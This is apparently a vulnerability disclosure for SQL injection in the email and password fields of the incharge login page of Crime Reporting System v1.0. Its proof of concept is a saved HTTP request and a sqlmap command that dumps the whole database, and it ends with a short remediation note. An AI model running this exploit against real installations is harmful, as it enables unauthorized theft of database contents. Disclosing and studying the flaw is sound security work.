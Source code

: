 # Crime Reporting System - SQL Injection (Incharge Login)

### Vendor Homepage:

> https://code-projects.org/

### Software Link:

> [Crime Reporting System](https://code-projects.org/crime-reporting-system-in-php-with-source-code/)

### Version:

> v 1.0

### SQL Injection:

> SQL injection is a type of security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. Usually, it involves the insertion or "injection" of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system, and in some cases, issue commands to the operating system.

### Affected Components:

> /Crime-Reporting-System/inchargelogin.php

> Two parameters `email` and `password` within incharge login are vulnerable to SQL Injection.


![email]()

![password]()

### Description:

> The presence of SQL Injection in the application enables attackers to issue direct queries to the database through specially crafted requests.

## Proof of Concept:

### SQLMap

Save the following request to `inchargelogin.txt`:

```
POST /Crime-Reporting-System/inchargelogin.php HTTP/1.1
Host: 172.16.8.56
Content-Length: 56
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://172.16.8.56
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://172.16.8.56/Crime-Reporting-System/inchargelogin.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

email=shah@anandapur&password=123&s=
```

Use `sqlmap` with `-r` option to exploit the vulnerability:

```
sqlmap -r inchargelogin.txt --level 5 --risk 3 --batch --dbms MYSQL --dump
```


## Recommendations

When using this Crime Reporting System, it is essential to update the application code to ensure user input sanitization and proper restrictions for special characters.